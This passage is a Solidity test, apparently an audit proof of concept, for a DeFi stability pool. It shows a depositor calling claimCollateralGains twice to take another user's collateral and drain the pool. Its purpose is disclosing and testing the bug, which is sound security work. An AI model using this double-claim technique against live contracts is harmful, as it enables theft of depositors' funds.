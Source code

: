 ```solidity
    assertEq(stakedBTCTroveMgr.defaultedCollateral(),
             collToLiquidate - collToSendToStabilityPool);

    assertEq(stakedBTCTroveMgr.L_collateral(), stakedBTCTroveMgr.defaultedCollateral());
    assertEq(stakedBTCTroveMgr.L_debt(), stakedBTCTroveMgr.defaultedDebt());

    // verify stability pool received collateral tokens
    assertEq(statePost.stabPoolStakedBTCBal, statePre.stabPoolStakedBTCBal + collToSendToStabilityPool);

    // verify stability pool lost debt tokens
    assertEq(statePost.stabPoolDebtTokenBal, statePre.stabPoolDebtTokenBal - debtToOffsetUsingStabilityPool);

    // no TroveManager errors
    assertEq(stakedBTCTroveMgr.lastCollateralError_Redistribution(), 0);
    assertEq(stakedBTCTroveMgr.lastDebtError_Redistribution(), 0);

    // user1 and user2 are both stability pool depositors so they
    // gain an equal share of the collateral sent to the stability pool
    // (at least in our PoC with simple whole numbers)
    uint256 collateralGainsPerUser = collToSendToStabilityPool / 2;

    uint256[] memory user1CollateralGains = stabilityPool.getDepositorCollateralGain(users.user1);
    assertEq(user1CollateralGains.length, 1);
    assertEq(user1CollateralGains[0], collateralGainsPerUser);

    uint256[] memory user2CollateralGains = stabilityPool.getDepositorCollateralGain(users.user2);
    assertEq(user2CollateralGains.length, 1);
    assertEq(user2CollateralGains[0], collateralGainsPerUser);

    // user2 claims their gains
    assertEq(stakedBTC.balanceOf(users.user2), 0);
    uint256[] memory collateralIndexes = new uint256[](1);
    collateralIndexes[0] = 0;
    vm.prank(users.user2);
    stabilityPool.claimCollateralGains(users.user2, collateralIndexes);
    assertEq(stakedBTC.balanceOf(users.user2), collateralGainsPerUser);
    assertEq(stakedBTC.balanceOf(address(stabilityPool)), statePost.stabPoolStakedBTCBal - collateralGainsPerUser);

    // user2 can immediately claim the same amount again!
    vm.prank(users.user2);
    stabilityPool.claimCollateralGains(users.user2, collateralIndexes);
    assertEq(stakedBTC.balanceOf(users.user2), collateralGainsPerUser * 2);
    assertEq(stakedBTC.balanceOf(address(stabilityPool)), 0);

    // user2 can keep claiming until they drain all the stability pool's
    // collateral tokens - in this case since there were only 2 depositors
    // with equal deposits, the second immediate claim has stolen the collateral
    // tokens that should have gone to user1

    // if user1 tries to claim this reverts since although StabilityPool
    // knows it owes user1 collateral gain tokens, it has been drained!
    vm.expectRevert("ERC20: transfer amount exceeds balance");
    vm.prank(users.user1);
    stabilityPool.claimCollateralGains(users.user2, collateralIndexes);
}
```
